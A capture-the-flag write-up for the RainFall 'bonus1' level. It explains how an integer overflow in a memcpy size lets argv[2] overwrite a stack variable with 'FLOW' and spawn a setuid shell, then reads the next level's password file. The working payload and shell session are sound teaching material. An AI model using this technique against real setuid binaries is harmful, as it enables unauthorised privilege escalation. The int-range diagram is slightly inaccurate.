


# BONUS1

## 1. Inspect The Executable

```
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```

We can see that the binary has the `s` bit set on the **execution permission**, which means the program will run with bonus2 privileges.

```bash
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 a
bonus1@RainFall:~$ ./bonus1 a a
bonus1@RainFall:~$ ./bonus1 abc a
bonus1@RainFall:~$ ./bonus1 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa a
bonus1@RainFall:~$ ./bonus1 1 a
bonus1@RainFall:~$ ./bonus1 10 a
bonus1@RainFall:~$ ./bonus1 20 a
bonus1@RainFall:~$ ./bonus1 40000000000000000000000000000000000000000000000000000000000000000000 a
bonus1@RainFall:~$ ./bonus1 1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 10
bonus1@RainFall:~$ ./bonus1 20
```

The program appears to expect **2 arguments**.

```bash
bonus1@RainFall:~$ ./bonus1 11
bonus1@RainFall:~$ ./bonus1 10
bonus1@RainFall:~$ ./bonus1 9
Segmentation fault (core dumped)
```

It seems that when the **first argument** is **less than 10** and **no second argument** is provided, the program **triggers a segmentation fault**.

## 2. Analyze The Executable

```bash
(gdb) info functions 
All defined functions:

Non-debugging symbols:
[...]
0x08048424  main
[...]
```

Using the gdb command `info functions`, we can list all functions present in the binary.
Here, we can see that the program only contains the `main` function.

### Program Behavior

#### main function

The `main` function first **converts `argv[1]`** to an **integer** using `atoi()` and stores the result in the local variable `local_14`.

If `local_14` is **strictly less than 10**, the program calls `memcpy()` to **copy `argv[2]`** into the local buffer `local_3c`.
The **size** of the copy is calculated as **`local_14 * 4`**.

After the copy, the program checks whether **`local_14`** is **equal** to **`0x574f4c46`** (which corresponds to **`1464814662`** in decimal, or **`"FLOW"`** in ASCII).
If this condition is met, the program executes `/bin/sh` via `execl()`.

In this branch, the function sets `uVar1` to `0` and returns.

If `local_14` is greater than or equal to 10, the `memcpy()` is not executed, `uVar1` is set to `1`, and the function returns.

## 3. Exploit Development

For this binary, the stack layout looks like this : 



The main difficulty here is that we need to **reach the second `if` condition**, which requires `argv[1]` to be equal to `1464814662`. While also **pass the first `if` condition**, which requires `argv[1]` to be strictly less than `10`.

To bypass it, we can **combine** an **Integer Overflow** with a **Buffer Overflow**.

The idea is to **exploit the `memcpy()`** call to **overflow `local_3c`** and **overwrite `local_14`**, replacing its value with **`FLOW`**.

However, since `local_14` must be less than 10, the **maximum size** passed to `memcpy()` is:
```m

9 * 4 = 36
```

This is **not enough to reach** and overwrite `local_14`, which is located after `local_3c`.

This is where the **Integer Overflow** comes into play.

---

### Understand the Integer Overflow

An **`int`** is **stored** on **`4 bytes`**, meaning its **value range** is **limited**:

```
hex:
00000000					 80000000					 ffffffff
    ├───────────────────────────┼───────────────────────────┤
-2147483648                    	0                       2147483647
int:
```

When an **integer** exceeds its **maximum value**, it **wraps around**:

```
0xffffffff + 1 → 0x00000000
0x00000000 - 1 → 0xffffffff
```

For example:
```

-2147483649 (int min - 1) = 2147483647
```

In this program, `local_14` is **multiplied by `4`** before being passed to `memcpy()`.
By carefully choosing a **negative value**, we can **force this multiplication** to produce a **positive number** of the right size.

---

### Get Exploit Values

First, we need the **little-endian** representation of the value **`"FLOW"`**, `0x574f4c46`:
```
\x46\x4c\x4f\x57
```

---

Next, we determine the **required copy size**.
The stack layout shows:

```
[local_3c: 40 bytes] [local_14: 4 bytes]
└──────────────────┬───────────────────┘
				44 bytes
```

Therefore the **required copy size** is **44 bytes**.

---

Then we need to **compute** the **value to provide** in order to **obtain** a copy size of **44 bytes** for `memcpy`.

From the **following base**:

```m
(int min) -2147483648 * 4 = 0

AND

(-2147483648 + 1) * 4 = 4
```

Since we want `memcpy` to copy **`44` bytes**, and the **size is multiplied by `4`**, we get:

```m
44 / 4 = 11
```

This leads to:

```m
(-2147483648 + 11) * 4 = 44
```

Which gives:

```m
-2147483648 + 11 = -2147483637
```

Therefore, the value to provide is **`-2147483637`**.

### Overflow Visualization



### Create the Payload

```bash
python -c "print '-2147483637' + ' ' + '\x90' * 40 + '\x46\x4c\x4f\x57'"
```

## 4. Capture The Flag

```bash
bonus1@RainFall:~$ ./bonus1 $(python -c "print '-2147483637' + ' ' + '\x90' * 40 + '\x46\x4c\x4f\x57'")
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users) groups=2012(bonus2),100(users),2011(bonus1)
$ cat /home/user/bonus2/.pass
XXX
$ exit
```
